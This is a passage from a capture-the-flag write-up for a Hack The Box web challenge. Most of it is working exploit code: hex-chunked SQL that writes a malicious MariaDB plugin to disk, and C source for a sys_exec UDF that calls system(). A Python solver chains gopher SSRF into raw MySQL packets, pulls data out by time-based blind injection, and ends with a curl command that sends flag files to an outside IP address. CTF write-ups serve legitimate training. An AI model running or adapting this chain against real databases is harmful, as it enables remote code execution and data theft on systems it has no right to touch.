UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x000000000000000000000000000000000011000000000000c010000000000000010000000000000073000000000000000c000000000000000010000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x0d00000000000000c0110000000000001900000000000000103e0000000000001b0000000000000008000000000000001a00000000000000183e000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x1c000000000000000800000000000000f5feff6f0000000060020000000000000500000000000000480300000000000006000000000000008802000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x0a0000000000000089000000000000000b0000000000000018000000000000000300000000000000004000000000000002000000000000001800000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x140000000000000007000000000000001700000000000000b004000000000000070000000000000008040000000000000800000000000000a800000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x09000000000000001800000000000000feffff6f00000000e803000000000000ffffff6f000000000100000000000000f0ffff6f00000000d203000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0xf9ffff6f000000000300000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x203e00000000000000000000000000000000000000000000361000000000000020400000000000004743433a202844656269616e20382e332e302d362920382e)
UPDATE mysql.temp SET data = concat(data, binary 0x332e3000002e7368737472746162002e6e6f74652e676e752e6275696c642d6964002e676e752e68617368002e64796e73796d002e64796e737472002e676e75)
UPDATE mysql.temp SET data = concat(data, binary 0x2e76657273696f6e002e676e752e76657273696f6e5f72002e72656c612e64796e002e72656c612e706c74002e696e6974002e706c742e676f74002e74657874)
UPDATE mysql.temp SET data = concat(data, binary 0x002e66696e69002e65685f6672616d655f686472002e65685f6672616d65002e696e69745f6172726179002e66696e695f6172726179002e64796e616d696300)
UPDATE mysql.temp SET data = concat(data, binary 0x2e676f742e706c74002e64617461002e627373002e636f6d6d656e74000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000b00000007000000020000000000000038020000000000003802000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x24000000000000000000000000000000040000000000000000000000000000001e000000f6ffff6f020000000000000060020000000000006002000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x2800000000000000030000000000000008000000000000000000000000000000280000000b000000020000000000000088020000000000008802000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0xc0000000000000000400000001000000080000000000000018000000000000003000000003000000020000000000000048030000000000004803000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x890000000000000000000000000000000100000000000000000000000000000038000000ffffff6f0200000000000000d203000000000000d203000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x100000000000000003000000000000000200000000000000020000000000000045000000feffff6f0200000000000000e803000000000000e803000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x20000000000000000400000001000000080000000000000000000000000000005400000004000000020000000000000008040000000000000804000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0xa8000000000000000300000000000000080000000000000018000000000000005e000000040000004200000000000000b004000000000000b004000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x18000000000000000300000014000000080000000000000018000000000000006800000001000000060000000000000000100000000000000010000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x17000000000000000000000000000000040000000000000000000000000000006300000001000000060000000000000020100000000000002010000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x20000000000000000000000000000000100000000000000010000000000000006e00000001000000060000000000000040100000000000004010000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x08000000000000000000000000000000080000000000000008000000000000007700000001000000060000000000000050100000000000005010000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x6e010000000000000000000000000000100000000000000000000000000000007d000000010000000600000000000000c011000000000000c011000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x09000000000000000000000000000000040000000000000000000000000000008300000001000000020000000000000000200000000000000020000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x2c000000000000000000000000000000040000000000000000000000000000009100000001000000020000000000000030200000000000003020000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x9c000000000000000000000000000000080000000000000000000000000000009b0000000e0000000300000000000000103e000000000000102e000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x0800000000000000000000000000000008000000000000000800000000000000a70000000f0000000300000000000000183e000000000000182e000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x0800000000000000000000000000000008000000000000000800000000000000b3000000060000000300000000000000203e000000000000202e000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0xc00100000000000004000000000000000800000000000000100000000000000072000000010000000300000000000000e03f000000000000e02f000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x2000000000000000000000000000000008000000000000000800000000000000bc00000001000000030000000000000000400000000000000030000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x2000000000000000000000000000000008000000000000000800000000000000c500000001000000030000000000000020400000000000002030000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x0800000000000000000000000000000008000000000000000000000000000000cb00000008000000030000000000000028400000000000002830000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x0800000000000000000000000000000001000000000000000000000000000000d000000001000000300000000000000000000000000000002830000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x1c000000000000000000000000000000010000000000000001000000000000000100000003000000000000000000000000000000000000004430000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0xd900000000000000000000000000000001000000000000000000000000000000)
SELECT binary data FROM mysql.temp INTO DUMPFILE "/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys_exec64.so"
```

Now that we have planted our plugin we're goinng to load it and invoke `sys_exec`, through `curl` we'll be able to see process output.

```python
def cmd(func, command):
	send('DROP FUNCTION IF EXISTS {func}'.format(func=func))
	send('DROP FUNCTION IF EXISTS {plugin}'.format(plugin=plugin_file))
	send("CREATE OR REPLACE FUNCTION {func} RETURNS int SONAME '{plugin}'".format(func=func, plugin=plugin_file))
	send('SELECT {func}(0x{cmd})', func=func, cmd=command.encode('hex'))

cmd('sys_exec', r'curl host.docker.internal:1339 -d `cat /app/flag_*`')
```

```sql
DROP FUNCTION IF EXISTS sys_exec
DROP FUNCTION IF EXISTS lib_mysqludf_sys_exec64.so
CREATE OR REPLACE FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys_exec64.so'
SELECT sys_exec(0x6375726c20686f73742e646f636b65722e696e7465726e616c3a31333339202d642060636174202f6170702f666c61675f2a60)
```

And we get the flag;

```bash
[Hard] Cached Web git:(ecsc-gr-2020) nc -lvnp 1339
Connection from 127.0.0.1:51513
POST / HTTP/1.1
Host: host.docker.internal:1339
User-Agent: curl/7.64.0
Accept: */*
Content-Length: 60
Content-Type: application/x-www-form-urlencoded

HTB{n0_p4ss_n0_ch4ll3ng3_0n_auth_p4ck3t_3qu4ls_mysql_pwn4g3}
```

### Solver:

```python
import requests, struct, re, ast
from HTMLParser import HTMLParser

host, port = 'docker.hackthebox.eu', 31579
HOST = 'http://%s:%d/' % (host, port)

execute = lambda packet: requests.post(HOST, {'url': packet}).elapsed.total_seconds() > 1

def exfiltrate(func, sub=0, int_size=8):
	for i in reversed(range(0, int_size)):
		sub *= 2
		sub += int(func(i, sub))
	return chr(sub)

def exfil_sleep(packet, debug=True, **kwargs):
	def inner(shift, sub):
		if debug is True:
			print packet.format(shift=shift, slp_time='.5', **kwargs)
		return execute(construct_query_packet(packet.format(shift=shift, slp_time='1', **kwargs)))
	return exfiltrate(inner)

def construct_handshake_response(user):
	connects_atrs_data = b''

	connect_attrs = {
		'_os': 'Linux',
		'_client_name': 'libmysql',
		'_pid': '1337',
		'_client_version': '5.7.29',
		'_platform': '_x86_64',
		'program_name': 'mysql'
	}

	for name, value in connect_attrs.items():
		connects_atrs_data += struct.pack('B', len(name)) + name    # len(CLIENT_CONNECT_ATTRS_name) + CLIENT_CONNECT_ATTRS_name
		connects_atrs_data += struct.pack('B', len(value)) + value  # len(CLIENT_CONNECT_ATTRS_value) + CLIENT_CONNECT_ATTRS_value

	connect_attrs_data = struct.pack('B', len(connects_atrs_data)) + connects_atrs_data # len(CLIENT_CONNECT_ATTRS)	+ CLIENT_CONNECT_ATTRS

	auth_response_packet = [
		0xa3 + len(user) - 4, 0x00, 0x00,                           # payload_length           int<3>
		0x01,                                                       # sequence_id              int<1>
		0x85, 0xa6, 0x3f, 0x20,                                     # capability_flags         int<4> SELECT * FROM performance_schema.session_connect_attrs WHERE processlist_id = CONNECTION_ID();
		0x00, 0x00, 0x00, 0x01,                                     # max_packet_size          int<4> 2 ** 24 -1
		0x08,                                                       # character_set            int<1>
		] + list(xrange(23)) + [                                    # reserved                 string[23]
		] + list(bytearray(user)) + [                               # username                 string[NUL]
		0x00,                                                       # length of auth-response  int<1>
		0x00,                                                       # auth-response            string[n]
		] + list(bytearray('mysql_native_password')) + [            # auth plugin name         string[NUL]
		0x00                                                        # [NUL]
		] + list(bytearray(connect_attrs_data))                     # client_connect_attrs                           

	return ''.join(map(lambda x: '{:02x}'.format(x), list(auth_response_packet)))

def encode(data):
	packet = 'gopher://0:3306/_'
	for i in range(len(data) / 2):
		packet += '%' + data[2*i:2*(i+1)]
	return unicode(packet)

def construct_query_packet(query):
	query = query.encode('hex')
	query_length = '{:x}'.format((len(query) / 2 ) + 1).rjust(2, '0')
	return encode(construct_handshake_response(db_user) + query_length + '00000003' + query + '0100000001') # COM_QUERY + len(query) + query

get_dbs = 'SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_table_names_from = 'SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x{db_name}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_column_names_from = 'SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name=0x{tbl_name}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_column_contents_from = 'SELECT SLEEP((SELECT ASCII(substr((SELECT {column} FROM {db_name}.{tbl_name}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_privileges_from = 'SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(privilege_type) FROM information_schema.user_privileges WHERE grantee=0x{user}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_file = 'SELECT SLEEP((SELECT ASCII(substr((SELECT LOAD_FILE(0x{filename})), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_env = 'SELECT SLEEP((SELECT ASCII(substr((SELECT @@global.{env}), {index}, 1)) >> {shift} & 1) * {slp_time})'
create_file = 'SELECT {contents} INTO DUMPFILE "{filename}"'
get_env = 'SELECT SLEEP((SELECT ASCII(substr((SELECT @@global.{env}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_command = 'SELECT SLEEP((SELECT ASCII(substr((SELECT {f}(0x{c})), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_file_not_exists = 'SELECT SLEEP(isnull(LOAD_FILE(0x{file})))'

#print requests.post(HOST, {'url': 'http://host.docker.internal:1338/'}).text

resp = HTMLParser().unescape(requests.post(HOST, {'url': 'http://144.91.77.228:1338/'}).text)

'''
from SimpleHTTPServer import SimpleHTTPRequestHandler
from SocketServer import TCPServer

class MyServer(TCPServer):
	allow_reuse_address = True

class HTTP_RequestHandler(SimpleHTTPRequestHandler):
	def do_GET(self):
		self.send_response(301)
		self.send_header('Location', '{dest.__init__.__globals__[db_conf]}')
		return self.end_headers()

MyServer(('', 1338), HTTP_RequestHandler).serve_forever()
'''

db_conf = ast.literal_eval(re.sub(',([^,]*)>', '', re.search('{(.*)}', resp).group(0)))

db_name = db_conf.get('database')
db_user = db_conf.get('user')

def retrieve(payload, **kwargs):
	f, i = '', 0

	while True:
		i += 1
		c = exfil_sleep(payload, index=i, **kwargs)

		if c != b'\x00':
			f += c
			print f

		else:
			return f

def send(payload, debug=True, **kwargs):
	if debug is True:
		print payload.format(**kwargs)
	return execute(construct_query_packet(payload.format(**kwargs)))


plugin_dir = retrieve(get_env, env='plugin_dir') # -> /usr/lib/x86_64-linux-gnu/mariadb19/plugin/

def plant_long_file(filename, chunksize=64):

	send('DROP TABLE IF EXISTS mysql.temp')
	send('CREATE TABLE IF NOT EXISTS mysql.temp (data BLOB)')

	with open(filename, 'rb') as f:
		for i, chunk in enumerate(iter(lambda: f.read(chunksize).encode('hex'), b'')):
			if i is 0:
				send('INSERT INTO mysql.temp (data) VALUES (binary 0x{contents})'.format(contents=chunk))
			else:
				send('UPDATE mysql.temp SET data = concat(data, binary 0x{contents})'.format(contents=chunk))

	send(create_file, contents='binary data FROM mysql.temp', filename=plugin_dir + filename)

# architecture = retrieve(get_env, env='version_compile_machine') -> debian-linux-gnu
# os_system = retrieve(get_env, env='version_compile_os') -> x86_64

plugin_file = 'lib_mysqludf_sys_exec64.so'

if send(get_file_not_exists, file=(plugin_dir + plugin_file).encode('hex')):
	plant_long_file(plugin_file)

'''
// ubuntu bionic x64
// gcc -s -DMYSQL_DYNAMIC_PLUGIN -fPIC -Wall -I/usr/include/mysql -shared -o lib_mysqludf_sys_exec64.so lib_mysqludf_sys_exec64.c

#include <string.h>
#include <stdlib.h>
#include <mysql.h>

my_ulonglong sys_exec(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
  return system(args->args[0]);
}

my_bool sys_exec_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
  if (args->arg_count == 1 && args->arg_type[0] == STRING_RESULT) {
    return 0;
  } else {
    strcpy(message, "Expected exactly one string type parameter");
    return 1;
  }
}

void sys_exec_deinit(UDF_INIT *initid);
'''

def cmd(func, command):
	send('DROP FUNCTION IF EXISTS {func}'.format(func=func))
	send('DROP FUNCTION IF EXISTS {plugin}'.format(plugin=plugin_file))
	send("CREATE OR REPLACE FUNCTION {func} RETURNS int SONAME '{plugin}'".format(func=func, plugin=plugin_file))
	send('SELECT {func}(0x{cmd})', func=func, cmd=command.encode('hex'))

cmd('sys_exec', r'curl 144.91.77.228:1339 -d `cat /app/flag_*`')

'''
[Hard] Cached Web git:(ecsc-gr-2020) nc -lvnp 1339
Connection from 127.0.0.1:51513
POST / HTTP/1.1
Host: host.docker.internal:1339
User-Agent: curl/7.64.0
Accept: */*
Content-Length: 60
Content-Type: application/x-www-form-urlencoded

HTB{n0_p4ss_n0_ch4ll3ng3_0n_auth_p4ck3t_3qu4ls_mysql_pwn4g3}
'''
```